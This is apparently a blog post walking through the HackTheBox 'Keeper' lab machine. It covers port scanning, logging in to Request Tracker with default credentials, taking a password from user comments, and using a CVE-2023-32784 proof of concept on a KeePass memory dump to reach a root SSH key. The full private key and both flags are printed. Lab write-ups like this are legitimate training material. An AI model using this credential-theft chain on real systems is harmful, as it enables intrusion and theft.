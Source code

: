 ```yaml
---
layout: post
title:  "Keeper - HTB Walkthrough"
date:   2024-02-10 21:39:54 +0530
categories: CTFs
---
```


## Introduction 

Easy level HackTheBox platform lab machine running Linux OS, containing a standard password, password transmission using an open communication channel and its untimely change, exploiting a vulnerability in Keepass.

## Service Overview

The machine is assigned IP address 10.10.11.227, let's scan the ports with Nmap:

```sh
$ nmap -sV -sC -Pn -p1-65535 -oN 10.10.11.227 10.10.11.227
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

On port 80, we are immediately pointed to two domain names. We need to add **keeper.htb** and **tickets.keeper.htb** to **/etc/hosts:**

``` sh
10.10.11.227 keeper.htb tickets.keeper.htb
```

Request Tracker (RT 4.4.4.4+dfsg-2ubuntu1 (Debian)) is running on tickets.keeper.htb. After trying some password combinations without success, we finally get the `root:password` account.

The ticket reveals a problem with Keepass. Let's pay attention to the Danish usernames. In the user section http://tickets.keeper.htb/rt/Admin/Users/ we find the user `lnorgaard:Welcome2023!`.

```sh
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb 	Enabled
Comments about this user 
New user. Initial password set to Welcome2023!

14 	root 	Enoch Root 	root@localhost 	Enabled
```

### User Flag

Use them to access SSH.

```sh
$ ssh lnorgaard@10.10.11.227
Welcome2023!
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp RT30000.zip passcodes.kdbx user.txt
lnorgaard@keeper:~$ cat user.txt
faa16f84c4bd32e64845c9651522850b
lnorgaard@keeper:~$
```

## Privilege Escalation

In the user directory **/home/lnorgaard** we see the file **RT30000.zip**. In the Windows application crash ticket it was written that the memory dump was removed from the ticket for security reasons and placed in the home directory.

Let's download this file for local research:

```sh
$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: Welcome2023!
Inside the archive is a file with memory dump and Keepass base:

$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp

 extracting: passcodes.kdbx

$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX

$ file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```


It looks like we're facing CVE-2023-32784. We can find almost the entire password from the memory dump.

```sh
$ git clone https://github.com/CMEPW/keepass-dump-masterkey
$ cd /opt/keepass-dump-masterkey
$ python3 poc.py /root/KeePassDumpFull.dmp
2023-09-08 17:50:46,382 [.] [main] Opened /root/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```


It looks like a passphrase, so we try a google search for med flode, given that the users are Danish. Apply the lowercase function to the passphrase and get rødgrød med fløde. Use this password to open passcodex.kdbx database.

In the Network category, find the Putty private key:

```sh
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

**Convert with puttygen (conversions => Export OpenSSH key):**

```sh
$ wget https://the.earth.li/~sgtatham/putty/0.76/putty-0.76.tar.gz
$ tar -xvf putty-0.76.tar.gz
$ cd putty-0.76/
$ ./configure
$ make
$ sudo cp puttygen /usr/bin/

$ putty-0.76/puttygen ssh-rsa.ppk -O private-openssh -o id_rsa
```


Let's connect with this key as root and get root flag:


```sh
$ ssh -i id_rsa root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls
RT30000.zip  SQL  root.txt
root@keeper:~# cat root.txt
19ad20c7b763f30208fbb19e30eb7634
```